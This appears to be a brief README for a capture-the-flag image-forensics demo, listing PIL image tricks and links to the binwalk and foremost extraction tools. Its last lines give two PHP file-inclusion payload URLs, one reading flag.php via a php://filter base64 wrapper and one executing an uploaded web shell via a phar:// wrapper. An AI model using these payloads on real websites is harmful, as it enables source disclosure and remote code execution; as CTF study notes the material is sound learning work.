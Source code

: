 # PIL_ctf_demo
split gif to many images.
make a picture by binary string
make a picture by base64 string










you may need this to get hidden files
binwalk
https://github.com/ReFirmLabs/binwalk

foremost
https://github.com/raddyfiy/foremost
https://github.com/jlinlinlin/foremost





文件包含的套路：



http://abc.com/?file=php://filter/read=convert.base64-encode/resource=flag.php

另外一种

http://abc.com/?fp=phar://uploads/shell.zip/shell